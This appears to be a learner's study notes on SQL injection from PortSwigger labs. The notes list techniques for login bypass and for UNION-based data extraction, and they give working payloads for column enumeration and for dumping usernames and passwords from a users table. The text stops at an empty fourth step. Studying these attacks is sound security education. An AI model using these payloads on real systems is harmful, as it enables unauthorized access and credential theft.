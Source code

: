 ### Portswigger notes

---

1. Finding hidden data    
Using `--` to comment out further checks and retrieve extra data.
Using `OR` clause to make query always true and return extra info.  

  
2. Diverting the logic  
Using `--` to login without checking the password
Using `OR` clause to bypass the further checks  

  
3. Finding extra data  
Using `UNION` and `SELECT`

  
```py
' UNION SELECT username, password FROM users--
```
[UNIION](https://portswigger.net/web-security/sql-injection/union-attacks)

```py
To carry out a SQL injection UNION attack, you need to ensure that your attack meets these two requirements.

This generally involves figuring out:
How many columns are being returned from the original query?
Which columns returned from the original query are of a suitable data type to hold the results from the injected query?
```

---

STEP 1 - To find coloumns :

1. Use `' ORDER BY 1--` to find the columns.
2. a series of UNION SELECT payloads :

```sql
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
etc.
```
---

STEP 2 - To find useful columns :

Use a string in each column and check if it is compatible with string data or not !

```sql
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--

Gifts'UNION SELECT NULL,'XyFz4U',NULL--
```

---

STEP 3 - To find useful data from useful columns

```sql
' UNION SELECT username, password FROM users--
```

---

STEP 4 - To find multiple values from a column


